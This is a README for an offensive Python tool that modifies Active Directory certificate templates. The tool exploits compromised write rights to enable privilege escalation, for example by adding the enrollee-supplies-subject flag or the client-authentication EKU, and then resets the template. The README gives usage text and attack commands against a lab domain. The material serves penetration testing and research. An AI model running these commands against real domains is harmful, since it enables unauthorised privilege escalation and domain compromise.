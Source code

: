 # Purpose
This tool is designed to aid an operator in modifying ADCS certificate templates so that a created vulnerable state can be leveraged for privilege escalation (and then reset the template to its previous state afterwards). This is specifically designed for a scenario where `WriteProperty` rights over a template have been compromised, but the operator is unsure which properties the right applies to. In this scenairo, the template's ACL can be queried and the applicable ACE information can be cross-referenced with property GUIDs to determine the modifiable properties. 

# Usage
```
usage: modifyCertTemplate.py [-h] -template template name [-property property name] [-value new value] [-get-acl] [-dn distinguished name] [-raw] [-add flag name] [-debug]
                             [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address] [-ldaps]
                             target

Modify the attributes of an Active Directory certificate template

positional arguments:
  target                [[domain/]username[:password]

optional arguments:
  -h, --help            show this help message and exit
  -template template name
                        Name of the target certificate template
  -property property name
                        Name of the target template property
  -value new value      Value to set the specified template property to
  -get-acl              Print the certificate's ACEs
  -dn distinguished name
                        Explicitly set the distinguished name of the certificate template
  -raw                  Output the raw certificate template attributes
  -add flag name        Add a flag to an attribute, maintaining the existing flags
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will
                        use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -ldaps                Use LDAPS instead of LDAP
```
# Examples
### Querying a Template or Property Value
Query a certificate template (all attributes)
```
python3 modifyCertTemplate.py -template KerberosAuthentication ez.lab/administrator:pass
```

Query a single attribute from a certificate template
```
python3 modifyCertTemplate.py -template KerberosAuthentication -property msPKI-Certificate-Name-Flag ez.lab/administrator:pass
```

Query the raw values of all template attributes
```
python3 modifyCertTemplate.py -template KerberosAuthentication -raw ez.lab/administrator:pass
```

### Querying ACL Info
Query the ACL for a certificate template
```
python3 modifyCertTemplate.py -template KerberosAuthentication -get-acl ez.lab/administrator:pass
```
Although unrelated to certificate templates, any object's ACL can be queried by providing the object's distinguished name
```
python3 modifyCertTemplate.py -dn "CN=ws1,CN=computers,DC=ez,DC=lab" -get-acl ez.lab/administrator:pass
```

### Modifying a Template
Add the `ENROLLEE_SUPPLIES_SUBJECT` flag to the template's `msPKI-Certificate-Name-Flag` property
```
python3 modifyCertTemplate.py -template KerberosAuthentication -add enrollee_supplies_subject -property msPKI-Certificate-Name-Flag ez.lab/administrator:pass 
```

Update the value of a certificate template attribute (non-list properties)
```
python3 modifyCertTemplate.py -template KerberosAuthentication -property msPKI-Certificate-Name-Flag -value -150994944 ez.lab/administrator:pass
```

Add an EKU to the `pKIExtendedKeyUsage` property
```
python3 modifyCertTemplate.py -template KerberosAuthentication -add "client authentication" -property pKIExtendedKeyUsage ez.lab/administrator:pass 
```

Update the value of a list-formatted attribute (i.e. explicitly set the value of `pKIExtendedKeyUsage`)
```
python3 modifyCertTemplate.py -template KerberosAuthentication -value "'1.3.6.1.5.5.7.3.4', '1.3.6.1.5.5.7.3.2'" -property pKIExtendedKeyUsage ez.lab/administrator:pass 
```

# References, Credits and Other Projects to Check Out!
- [PyWhisker](https://github.com/ShutdownRepo/pywhisker)
- [Certi](https://github.com/zer1t0/certi)
- [StandIn](https://github.com/FuzzySecurity/StandIn)
